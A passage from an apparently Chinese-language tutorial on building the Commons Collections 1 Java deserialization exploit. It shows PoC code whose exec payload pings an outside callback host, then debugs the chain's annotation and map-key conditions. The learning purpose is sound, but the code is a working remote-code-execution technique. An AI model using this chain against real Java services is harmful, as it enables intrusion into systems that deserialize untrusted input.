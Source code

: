 ```java
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Override.class, transformedMap);
        serializeObject(instance);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

现在运行不会报不能序列化的错误，但是依旧不能命令执行，接下来解决第二个问题

2.if 判断的问题，在 readObject 方法那里下断点查看-->

![alt text](image-71.png)

第一个 if 判断就没进去，要想使`memberType != null`那么就得使 memberTypes 中存在一个叫 name 的值，而 name 的值是可以控制的，就是上述 Payload 中`map.put(null,null);`它的 key 值，而 memberTypes 的来龙去脉如下

![alt text](image-72.png)

就是上述 Payload 中`Object instance = constructor.newInstance(xxx.class, transformedMap);`的 xxx.class，这个 xxx.class 还必须是个注解类型，就是要找一个有抽象方法的注解类型的类，找到一个类如下-->

![alt text](image-73.png)

所以把 xxx.class 改成 Retention.class，`map.put(null,null);`中的 key 改成 value 即可，而第二个 if 的意思是，如果 value 既不是 memberType 类型的实例，也不是 ExceptionProxy 类型的实例，这里显然不是的，那第二个 if 也可以进去。还有`map.put(null,null);`中的 key 不仅要等于 value，且 value 也不能为 null，否则会报错，报错如下-->

![alt text](image-74.png)

应修改为`map.put("value","xxx");`至此 CC1 的完整 Poc 书写完毕，代码如下-->
